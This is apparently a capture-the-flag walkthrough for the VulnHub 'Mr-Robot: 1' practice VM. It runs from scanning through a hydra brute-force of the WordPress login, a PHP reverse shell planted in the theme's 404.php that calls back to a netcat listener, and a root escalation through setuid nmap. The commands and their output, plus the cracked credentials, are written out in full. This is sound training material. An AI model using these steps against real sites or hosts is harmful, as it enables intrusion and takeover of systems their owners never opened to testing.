





#Mr-Robot: 1
https://www.vulnhub.com/entry/mr-robot-1,151/
This box is farily straightforward, and the fun theme was a plus.
0) Find the VM's IP
To find your VM's IP address, set your VM to ‘bridged’ so that it gets assigned an IP on your internal network and then use netdiscover to scan your network: netdiscover -r <internal network>/24
netdiscover -r 192.168.1.1/24
192.168.1.170 is my Mr-Robot: 1 box.
Take a snapshot of the VM at this point, just to be safe.
1) Nmap
Initial scan:
nmap -sC -sV -O -oN nmap/initial.txt 192.168.1.184
-sC default scripts
-sV service enumeration
-O OS detection
-oN default output
Results:
root@kali:~/ctf/mrRobot# mkdir nmap
root@kali:~/ctf/mrRobot# nmap -sC -sV -O -oN nmap/initial.txt 192.168.1.170
Starting Nmap 7.70 ( https://nmap.org ) at 2019-04-10 11:06 BST
Nmap scan report for linux.lan (192.168.1.170)
Host is up (0.00021s latency).
Not shown: 997 filtered ports
PORT STATE SERVICE VERSION
22/tcp closed ssh
80/tcp open http Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after: 2025-09-13T10:45:03
MAC Address: 00:0C:29:3A:C0:F8 (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.10 - 4.11
Network Distance: 1 hop
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.94 seconds
22/ssh is closed, nothing to do there.
80/http is the way forward.
443/http is probably the same site as 80/http, but who knows until you check it.
2) /(mr)robots.txt
http://192.168.1.170/
This is fun, looks like a bit of marketing for the show. Poke around, but there's nothing to be found here.
Nikto tells us it's a wordpress site.
root@kali:~/ctf/mrRobot/80http# nikto -h 192.168.1.170 -o nikto.txt
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP: 192.168.1.170
+ Target Hostname: 192.168.1.170
+ Target Port: 80
+ Start Time: 2019-04-10 11:11:31 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache
...
+ /wp-login/: Admin login page/section found.
+ /wordpress: A Wordpress installation was found.
...
+ 7915 requests: 0 error(s) and 18 item(s) reported on remote host
+ End Time: 2019-04-10 11:13:58 (GMT1) (147 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
Gobuster points out /robots.txt (which I don't find is that common in ctf)
root@kali:~/ctf/mrRobot/80http# gobuster -e -u http://192.168.1.170/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -o gb-common.txt
=====================================================
Gobuster v2.0.1 OJ Reeves (@TheColonial)
=====================================================
[+] Mode : dir
[+] Url/Domain : http://192.168.1.170/
[+] Threads : 10
[+] Wordlist : /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Status codes : 200,204,301,302,307,403
[+] Expanded : true
[+] Timeout : 10s
=====================================================
2019/04/10 11:13:58 Starting gobuster
=====================================================
...
http://192.168.1.170/robots.txt (Status: 200)
...
=====================================================
2019/04/10 11:15:27 Finished
=====================================================
http://192.168.1.170/robots.txt
User-agent: *
fsocity.dic
key-1-of-3.txt
The first key, and a dictionary.
3) fsocity.dic
http://192.168.1.170/fsocity.dic
Firefox said to me that this is a C file, which threw me off.
It's a dictionary file .
fsocity.dic a wordlist.
Scrolling through it, you'll notice pretty quickly that words are repeated.
Purge it of any duplicate words.
sort -u will sort the file alphabetically, putting identical lines together, and then delete the duplicates.
root@kali:~/ctf/mrRobot/80http# sort -u fsocity.dic > fsocityUniq.dic
root@kali:~/ctf/mrRobot/80http# ls -alh
total 7.1M
-rw-r--r-- 1 root root 7.0M Apr 10 11:32 fsocity.dic
-rw-r--r-- 1 root root 95K Apr 10 11:40 fsocityUniq.dic
The file has gone 7mb to 95kb, so there was a lot of duplicates,
We don't have any usernames, but we do now have a wordlist.
Both nikto and gobuster found the wordpress login page, so that's our bruteforce target.
4) wp-bruteforce
http://192.168.1.170/wp-login
To bruteforce we need 2 things: an error message for when a username is wrong and the URL parameters submitted during login.
Log in with any incorrect username + password (I used bob / password), this will get us an error message.

For the URL parameters:
1. F12 to open developer tools in firefox, navigate to the network tab
2. Attempt to login to wordpress, this will capture a POST request
3. Find the POST request, select it, hit ‘Edit and Resend’ and in the request body are the URL parameters we need


These are the URL parameters:
log=bob&pwd=password&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.1.170%2Fwp-admin%2F&testcookie=1
The redirect and cookie parts of the parameter we don't need, which leaves:
log=bob&pwd=password&wp-submit=Log+In
Hydra took about 5 minutes to find a username.
root@kali:~/ctf/mrRobot/80http# hydra -v -L fsocityUniq.dic -p password -o hydraUsernames.txt -t 50 192.168.1.170 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username" -f
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-04-10 12:05:40
[DATA] max 50 tasks per 1 server, overall 50 tasks, 11452 login tries (l:11452/p:0), ~1 tries per task
[DATA] attacking http-post-form://192.168.1.170:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[STATUS] 1500.00 tries/min, 1500 tries in 00:00h, 0 to do in 01:00h, 9952 active
[STATUS] 1483.33 tries/min, 4450 tries in 00:00h, 0 to do in 03:00h, 7002 active
[80][http-post-form] host: 192.168.1.170 login: Elliot password: password
[STATUS] attack finished for 192.168.1.170 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-04-10 12:09:22
And about another 5 minutes to find a password.
I logged in as Elliot / password to get an error message for when the password is wrong.
root@kali:~/ctf/mrRobot/80http# hydra -v -l Elliot -P /root/ctf/mrRobot/80http/fsocityUniq.dic -o hydraElliotDIC.txt -t 50 192.168.1.170 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=The password you entered for the username" -f
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-04-10 12:42:30
[DATA] max 50 tasks per 1 server, overall 50 tasks, 11452 login tries (l:1/p:0), ~11452 tries per task
[DATA] attacking http-post-form://192.168.1.170:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=The password you entered for the username
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[STATUS] 1416.00 tries/min, 1416 tries in 00:00h, 0 to do in 01:00h, 10036 active
[STATUS] 1415.67 tries/min, 4247 tries in 00:00h, 0 to do in 03:00h, 7205 active
[VERBOSE] Page redirected to http://192.168.1.170/wp-admin/
[80][http-post-form] host: 192.168.1.170 login: Elliot password: ER28-0652
[STATUS] attack finished for 192.168.1.170 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-04-10 12:46:38
Elliot / ER28-0652
is our username / password combo.
5) wp-shell
Log in, and we find ourselves on the wordpress admin page.
We can edit anything we want.
You can get a shell from the wp-admin page by editing the theme of the site.
Go to Appearance > Editor

The 404.php page is the easiest to edit.
Prep the php shell and then paste it into 404.php template.
root@kali:~/ctf/mrRobot/80http# ls /usr/share/webshells/php
findsock.c php-backdoor.php php-findsock-shell.php php-reverse-shell.php qsd-php-backdoor.php simple-backdoor.php
root@kali:~/ctf/mrRobot/80http# cp /usr/share/webshells/php/php-reverse-shell.php .
root@kali:~/ctf/mrRobot/80http# nano php-reverse-shell.php
...
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.
set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.1.183'; // CHANGE THIS
$port = 9001; // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
...
root@kali:~/ctf/mrRobot/80http# mv php-reverse-shell.php phprs.php

Now, whenever we visit a page on the site that doesn't exist, it will try to connect to our listener.
Prep our listener:
root@kali:~/ctf/mrRobot/80http# nc -lvnp 9001
listening on [any] 9001 ...
Navigate to a page on the site that doesn't exist (or 404.php)
http://192.168.1.170/404.php
And we should get a callback on our listener.
root@kali:~/ctf/mrRobot/80http# nc -lvnp 9001
listening on [any] 9001 ...
connect to [192.168.1.183] from (UNKNOWN) [192.168.1.170] 53513
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
10:47:42 up 15 min, 0 users, load average: 0.00, 0.03, 0.06
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: cant access tty; job control turned off
$ id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
$
6) shell > robot
You can decrypt md5 hashes on the command line using john
In order to switch users we need an upgraded shell - python -c 'import pty; pty.spawn("/bin/bash")'
$ ls -alh /home
total 12K
drwxr-xr-x 3 root root 4.0K Nov 13 2015 .
drwxr-xr-x 22 root root 4.0K Sep 16 2015 ..
drwxr-xr-x 2 root root 4.0K Nov 13 2015 robot
$ cd /home/robot
$ ls -alh
total 16K
drwxr-xr-x 2 root root 4.0K Nov 13 2015 .
drwxr-xr-x 3 root root 4.0K Nov 13 2015 ..
-r-------- 1 robot robot 33 Nov 13 2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot 39 Nov 13 2015 password.raw-md5
$ cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
$ cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
$ su robot
su: must be run from a terminal
$ which python
/usr/bin/python
$ python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/home/robot$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz
robot@linux:~$ cd ~
cd ~
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
robot@linux:~$
7) robot > root
Are there any files with a suid bit?
find / -perm -u=s -type f 2>/dev/null
Nmap!
Nmap versions 2.02 to 5.21 have an interactive mode where you can spawn shell.
This is 3.81.
Because nmap has a setuid bit, it will run with the privileges of its owner (root).
If we spawn a shell, it will have root privileges.
Run nmap in --interactive mode...
robot@linux:/tmp$ find / -perm -u=s -type f 2>/dev/null
...
/usr/local/bin/nmap
...
robot@linux:/tmp$ nmap --version
nmap version 3.81 ( http://www.insecure.org/nmap/ )
robot@linux:/tmp$ nmap --interactive
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
# id
id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
# cd /root
# ls
firstboot_done key-3-of-3.txt
and root!